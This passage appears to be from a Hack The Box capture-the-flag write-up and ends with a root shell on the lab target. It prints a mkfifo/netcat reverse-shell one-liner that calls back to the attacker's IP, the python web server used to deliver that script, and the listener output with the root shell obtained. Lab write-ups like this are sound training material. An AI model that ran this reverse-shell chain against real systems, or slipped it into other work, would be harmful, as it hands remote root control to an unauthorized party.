

Then, for the test, let's run `id`.



Then, let's prepare reverse shell file to upload on target.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat rshell.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9001 >/tmp/f


┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
```

I can simply download using `wget` command.



After that, I need to give `Execution` permission to the file.



Everything is set, so I can run the file to spawn a reverse shell.


Then, let's wait on listener to get a shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.102] 47518
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

I got root!